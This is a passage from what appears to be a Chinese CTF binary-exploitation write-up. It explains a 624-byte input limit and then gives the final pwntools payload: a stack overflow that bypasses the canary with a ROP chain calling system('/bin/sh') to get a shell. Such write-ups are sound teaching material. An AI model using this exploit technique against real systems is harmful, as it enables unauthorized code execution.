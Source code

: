 尤其需要注意，第二次输入长度不能超过 `0x270` 也就是 `624`，这里构造的 payload 恰好长度为 624，因此只能用 `p.send()` 不能 `p.sendline()`，否则会多出一个 `0a` 字节使程序终止。

最后就可以 getshell 了：

```python
# get shell
payload = flat('a'*600,canary,'a'*8,base+pop_rdi,binsh,system)
send(payload)
p.sendlineafter('624)\n','a')

p.interactive()
```
